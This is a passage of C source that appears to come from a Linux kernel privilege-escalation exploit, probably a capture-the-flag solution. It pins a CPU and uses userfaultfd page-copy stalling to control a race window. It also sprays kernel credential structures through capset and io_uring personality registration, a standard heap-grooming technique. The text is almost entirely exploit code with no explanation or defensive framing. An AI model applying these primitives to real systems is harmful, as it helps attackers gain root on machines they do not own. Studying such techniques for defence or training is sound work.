 ```c 
{
    pin_cpu(0);
    note_edit(0, addr);
    puts("[+] note_edit() succeeded");
}

static int ufd_unblock_page_copy(void *unblock_page, void *content_page, size_t *copy_out)
{
    struct uffdio_copy copy = {
        .dst = (uintptr_t)unblock_page,
        .src = (uintptr_t)content_page,
        .len = 0x1000,
        .copy = (uintptr_t)copy_out,
        .mode = 0};

    printf("unblocking %p (copying 0x1000 bytes from %p)", unblock_page, content_page);
    if (ioctl(userfault_fd, UFFDIO_COPY, &copy))
        fatal("UFFDIO_COPY failed");
    return 0;
}

static int sys_io_uring_setup(size_t entries, struct io_uring_params *p)
{
    return syscall(__NR_io_uring_setup, entries, p);
}


static int uring_create(size_t n_sqe, size_t n_cqe)
{
    struct io_uring_params p = {
        .cq_entries = n_cqe,
        .flags = IORING_SETUP_CQSIZE
    };

    int res = sys_io_uring_setup(n_sqe, &p);
    if (res < 0)
        fatal("io_uring_setup() failed");
    return res;
}

static int alloc_n_creds(int uring_fd, size_t n_creds)
{
    for (size_t i = 0; i < n_creds; i++) {
        struct __user_cap_header_struct cap_hdr = {
            .pid = 0,
            .version = _LINUX_CAPABILITY_VERSION_3
        };

        struct user_cap_data_struct cap_data[2] = {
            {.effective = 0, .inheritable = 0, .permitted = 0},
            {.effective = 0, .inheritable = 0, .permitted = 0}
        };

        /* allocate new cred */
        if (syscall(SYS_capset, &cap_hdr, (void *)cap_data))
            fatal("capset() failed");

        /* increment refcount so we don't free it afterwards*/
        if (syscall(SYS_io_uring_register, uring_fd, IORING_REGISTER_PERSONALITY, 0, 0) < 0)
            fatal("io_uring_register() failed");
    }
}

```